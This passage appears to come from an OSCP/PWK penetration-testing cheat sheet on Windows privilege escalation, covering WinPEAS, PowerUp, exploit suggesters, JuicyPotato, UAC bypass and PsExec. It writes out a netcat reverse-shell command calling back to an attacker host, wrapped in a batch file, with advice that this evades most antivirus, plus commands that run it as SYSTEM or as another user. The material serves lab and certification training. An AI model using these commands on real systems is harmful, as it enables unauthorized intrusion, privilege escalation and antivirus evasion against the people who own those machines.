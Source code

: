 If nothing obvious comes out of `WinPEAS`, I usually run `Invoke-AllChecks` from [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc), which does similar checks but sometimes also catches additional vulnerabilities.

If all else fails I start looking for OS-level exploits, especially on older systems. [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) helps for this: you can run it from Kali and only need the output of `SystemInfo`. It also helps to sometimes google for privilege escalation vulnerabilities for the exact OS version - an interesting example I used once for PWK is [ComaHawk](https://github.com/apt69/COMahawk) (works on relatively recent Windows 10 systems).

Some other notable examples are discussed in the sections below.

#### JuicyPotato

Relevant if you have the `SeImpersonatePrivilege` and the OS version is *older than* Server 2019 or Windows 10. I've had the biggest successes by using a neutral binary such as `nc.exe` or `nc64.exe` from [here](https://eternallybored.org/misc/netcat/). If you create a `bat` file with the command call, it should evade most AV and give you a privileged shell. 

Grab a CLSID from [here](https://ohpe.it/juicy-potato/CLSID/), it may take a couple of different attempts to get a working CLSID.

```cmd
# On target system, after copying required binaries
echo C:\temp\nc64.exe -e cmd.exe $LHOST 443 > rev.bat
.\JuicyPotato.exe -l 1337 -p C:\temp\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```

> Alternatives to the above are available. Play with tools like [LovelyPotato](https://github.com/TsukiCTF/Lovely-Potato) as well, which automate the finding of the CLSID.

#### UAC Bypass

Relevant if you are a local administrator, but `whoami /all` returns that you are running in a "Medium integrity process". The method of exploitation differs widely per OS version. Googling for automated UAC bypass exploits for a specific version, or using [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) or metasploit to ID possible UAC bypass vulnerabilities is likely to have success.

#### Local Admin to SYSTEM

Even though this is strictly not required for PWK or the OSCP certification exam, I always like to get a full `SYSTEM` shell. We can realize this with `PsExec.exe` (from [here](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)). You can use a Msfvenom executable instead of `rev.bat`, but the latter works better for AV evasion (see `JuicyPotato`).

```plaintext
.\PsExec.exe -i -s "c:\temp\rev.bat"
```

> If you have a shell on a Windows system and a password for another user, PsExec can also be used to execute programs as the target user.
> ```
> .\PsExec.exe -user $USERNAME -p $PASSWORD "c:\temp\rev.bat"
> ```

### Linux
